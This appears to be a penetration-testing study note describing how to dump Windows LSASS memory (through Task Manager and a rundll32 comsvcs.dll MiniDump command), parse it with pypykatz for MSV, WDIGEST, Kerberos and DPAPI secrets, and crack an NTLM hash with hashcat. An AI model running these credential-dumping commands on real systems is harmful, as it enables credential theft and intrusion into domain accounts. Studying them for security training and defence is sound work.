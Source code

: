 # Attacking LSASS

Upon initial logon, LSASS will:

* Cache credentials locally in memory
* Create access tokens
* Enforce security policies
* Write to Windows security log

## Dumping LSASS Process Memory

Here we dump memory like SAM first then utilize it with pypykatz

### Task Manager method

**Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file**

![[images/image 5.png]]

A file called lsass.DMP is created and saved in:

```powershell
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

then we will transfer that file to our attack host (kali)

### Rundll32.exe & Comsvcs.dll Method

useful when we have shell

**First thing,** get process ID (`PID`) is assigned to `lsass.exe`

#### Finding LSASS PID in CMD

```
tasklist /svc
```

![[images/image 6.png]]

#### Finding LSASS PID in PowerShell

```powershell
Get-Process lsass
```

![[images/image 7.png]]

**After getting PID, we can make dump file**

#### **Creating lsass.dmp using PowerShell**


```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## Using Pypykatz to Extract Credentials

LSASS is a subsystem of `local security authority (LSA)`

```bash
pypykatz lsa minidump /path/to/lsass.dmp
```


> [!NOTE]
> While doing transfer you will get network error. *just* have faith it's fine
> 

it will generate massive output


![[images/image 8.png]]
### MSV

authentication package in Windows that LSA calls on to validate logon attempts against the SAM database

### WDIGEST

older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`

LSASS caches credentials used by WDIGEST in clear-text

### Kerberos

LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain

### DAPI

Mimikatz and Pypykatz can extract the DPAPI `masterkey` for the logged-on user whose data is present in LSASS process memory. This masterkey can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts

## Then simple, use hashcat

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b rockyou.txt
```
